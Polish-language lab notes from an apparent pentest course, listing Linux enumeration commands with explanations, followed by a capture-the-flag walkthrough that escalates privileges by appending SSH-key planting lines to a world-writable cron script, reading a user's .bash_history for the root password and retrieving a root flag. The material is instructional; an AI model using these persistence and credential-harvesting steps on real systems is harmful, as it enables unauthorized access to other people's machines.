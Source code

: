 - ssh
- whaim
- env
- id
- echo $USR
- who
- last


- ```cat /etc/passwd``` :wyświetla zawartość pliku /etc/passwd, który zawiera
podstawowe informacje o wszystkich użytkownikach systemu, takie jak nazwa
użytkownika, numer identyfikacyjny użytkownika (UID), numer identyfikacyjny
grupy (GID), pełna nazwa użytkownika, katalog domowy oraz powłoka logowania.


- ```cat /etc/issue``` - wyświetla zawartość pliku /etc/issue, który zawiera krótki
komunikat powitalny lub informacje o wersji systemu operacyjnego wyświetlane
przed logowaniem


- ```cat /etc/os-release``` - wyświetla szczegółowe informacje o systemie operacyjnym,
takie jak jego nazwa, wersja i identyfikator, zapisane w pliku /etc/os-release.


- ```uname -a``` - wyświetla pełne informacje o systemie, w tym nazwę jądra, nazwę
hosta, wersję jądra, datę kompilacji oraz architekturę systemu.


- ```cat /proc/version``` - wyświetla szczegóły dotyczące wersji jądra Linux, w tym wersję
jądra, datę kompilacji oraz używaną wersję kompilatora


- ```cat /proc/cpuinfo``` - wyświetla szczegółowe informacje o procesorze, takie jak
model, liczba rdzeni, częstotliwość taktowania oraz cechy procesora


- ```cat /proc/meminfo``` - wyświetla szczegółowe informacje o pamięci systemowej,
w tym całkowitą ilość pamięci, używaną pamięć, wolną pamięć oraz inne
statystyki dotyczące pamięci.


- ```lspci``` - wyświetla listę wszystkich urządzeń podłączonych do magistrali PCI
w systemie, wraz z ich identyfikatorami i podstawowymi informacjami o sprzęcie.


- ```lsusb``` - wyświetla listę wszystkich urządzeń USB podłączonych do systemu, w tym
informacje o identyfikatorach producenta i produktu, a także numerze magistrali i
porcie, do którego urządzenie jest podłączone.


- ```lsscsi``` - wyświetla listę wszystkich urządzeń SCSI (w tym dysków twardych,
napędów optycznych i innych urządzeń) podłączonych do systemu, wraz z ich
identyfikatorami i informacjami o urządzeniach.

- ```lshw``` - wyświetla szczegółowe informacje o sprzęcie systemu, w tym o procesorze,
pamięci, dyskach, urządzeniach peryferyjnych oraz ich konfiguracji


- ```lsblk``` - wyświetla informacje o wszystkich dostępnych urządzeniach blokowych
w systemie, takich jak dyski twarde i partycje, wraz z ich nazwami, rozmiarami,
typem (np. dysk, partycja), oraz punktami montowania


- ```df -h``` - wyświetla informacje o użyciu przestrzeni dyskowej na zamontowanych
systemach plików, prezentując wyniki w formacie czytelnym dla ludzi
(z jednostkami takimi jak GB i MB)


- ```free -h``` - wyświetla informacje o użyciu pamięci systemowej, w tym o całkowitej,
używanej, wolnej i dostępnej pamięci RAM oraz pamięci wymiany, prezentując
wyniki w formacie czytelnym dla ludzi


- ```top``` - wyświetla dynamiczny, na bieżąco aktualizowany widok procesów
systemowych, pokazując zużycie CPU, pamięci oraz inne statystyki dotyczące
aktywnych procesów.


- ```ip a``` - wyświetla szczegółowe informacje o interfejsach sieciowych, w tym ich
adresach IP, maskach sieciowych i innych konfiguracjach związanych z siecią.


- ```ip r``` - wyświetla tabelę routingu systemu, która pokazuje dostępne trasy sieciowe
oraz przypisane im bramy, interfejsy sieciowe i inne parametry, co jest kluczowe
dla zrozumienia, jak ruch sieciowy jest kierowany przez system.


- ```ip n``` - służy do wyświetlania tabeli sąsiadów sieciowych, która zawiera informacje
o odwzorowaniach adresów IP na adresy MAC dla urządzeń w tej samej sieci
lokalnej. Jest to narzędzie do zarządzania sąsiadami warstwy 3 (adresy IP)
i warstwy 2 (adresy MAC) w sieci, często używane do diagnozowania problemów
z połączeniami sieciowymi i analizowania stanu połączeń.


- ```cat /etc/resolv.conf``` - wyświetla zawartość pliku konfiguracyjnego /etc/resolv.conf,
który zawiera informacje o serwerach DNS używanych do rozwiązywania nazw
domenowych


- ```ss -tp``` - wyświetla listę aktywnych połączeń TCP wraz z dodatkowymi informacjami
o każdym połączeniu, takimi jak adresy IP i porty źródłowe i docelowe


- ```ss -tlp``` - wyświetla listę aktywnych nasłuchujących połączeń TCP wraz
z informacjami o identyfikatorze procesu (PID) i nazwie programu,
który jest odpowiedzialny za każde nasłuchujące gniazdo


- ```ps``` - wyświetla listę aktualnie działających procesów w systemie, pokazując
podstawowe informacje takie jak identyfikator procesu (PID), użytkownik oraz
stan procesu.


- ```ps aux``` - wyświetla szczegółową listę wszystkich uruchomionych procesów
w systemie, niezależnie od użytkownika, z dodatkowymi informacjami
takimi jak użycie CPU, pamięci, czas działania i inne atrybuty procesu.


- ```ps auxf``` - wyświetla szczegółową listę wszystkich uruchomionych procesów,
prezentując je w formie drzewa hierarchii procesów, co ułatwia zrozumienie relacji
między procesami i ich rodzicami.


- ```touch pjatk1``` - tworzy nowy, pusty plik o podanej nazwie lub aktualizuje datę
ostatniego dostępu i modyfikacji istniejącego pliku.
````
echo Hello > pjatk2 

cp pjatk2 pjatk3 

mv pjatk2 pjatk4

rm pjatk3 

mkdir pjatk

rmdir pjatk
````

- ```locate .conf``` - wyszukuje i wyświetla ścieżki do plików, których nazwy zawierają
.conf, bazując na zaktualizowanej bazie danych plików

- ```find / -name '*.conf' 2>/dev/null``` - wyszukuje pliki o rozszerzeniu .conf w całym
systemie, ignorując komunikaty o błędach dostępu do niektórych katalogów


```grep sh /etc/passwd```

- ```grep -v nologin /etc/passwd``` - wyświetla linie z pliku /etc/passwd, które nie
zawierają ciągu nologin, pomagając w identyfikacji użytkowników, którzy mają
przypisaną aktywną powłokę logowania.


- ```systemctl status ssh``` - wyświetla aktualny stan usługi SSH, w tym informacje o jej
statusie, działających procesach oraz ewentualnych błędach lub problemach z jej
uruchomieniem


- ```systemctl status``` - wyświetla status usługi systemowej, ale wymaga podania
nazwy usługi, której status ma być sprawdzony. Jeśli użyta bez dodatkowych
argumentów, może wyświetlić ogólny stan systemu oraz informacje o działających
jednostkach i błędach systemowych


Ostatnie zagadnienie tej części to tzw. Cronjobs. Czasami chcemy, aby nasz
system uruchomił jakieś polecenie samodzielnie. Codziennie? Co godzinę? Co
minutę? Cron jest odpowiedzią! Dowiedzmy się o nich czegoś więcej. Celem
zadania jest uruchomienie tych komend na maszynie z ćwiczeniami.

- ```cat /etc/crontab``` - wyświetla zawartość pliku /etc/crontab, który zawiera
globalne zadania cron, definiujące harmonogram uruchamiania zadań
systemowych na poziomie całego systemu.

- ```crontab -e``` - otwiera edytor tekstu, umożliwiając edytowanie osobistych zadań
cron dla bieżącego użytkownika, które będą uruchamiane zgodnie z określonym
harmonogramem.

````
cat /etc/crontab
#* * * * * developer /home/developer/clean.sh oznacza, że skrypt clean.sh uruchomi się co minutę z uprawnieniami developer
ls -l /home/developer/clean.sh
#uprawnienia rwxrwxrwx oznaczają, że każdy może edytować ten plik
echo "mkdir /home/developer/.ssh" >> /home/developer/clean.sh
#dopisanie do pliku clean.sh komendy tworzącej katalog ~developer/.ssh
echo "echo $(cat /home/pentest/.ssh/authorized_keys) > /home/developer/.ssh/authorized_keys" >> /home/developer/clean.sh
#dopisane do pliku clean.sh tego samego klucza, którym zalogowaliśmy się na użytkownika pentest.


cat /home/developer/.ssh/authorized_keys #upewniamy się, że cron zadziałał
exit #wracamy na maszynę 192.168.100.1
ssh developer@192.168.200.51 #logujemy się na developera
````

Celem zadania jest odczytanie historii komend użytkownika developer, znalezienie
hasła użytkownika root i zalogowanie się na niego:
- ```cat /home/developer/.bash_history``` #w pliku znajdziemy hasło na roota
su #za pomocą su logujemy się na roota


Ostatnim krokiem jest odczytanie pliku /root/root.txt i przekopiowanie flagi
do formularza na platformie:
- ```cat /root/root.txt```

````
find / -type f -perm 0777 2>/dev/null
find / - przeszukuje cały system plików.
-type f - ogranicza wyniki do plików (nie katalogów).
-perm 0777 - szuka plików z uprawnieniami rwxrwxrwx.
2>/dev/null - ukrywa komunikaty o błędach, które mogą pojawić się z powodu braku dostępu do niektórych katalogów.****
````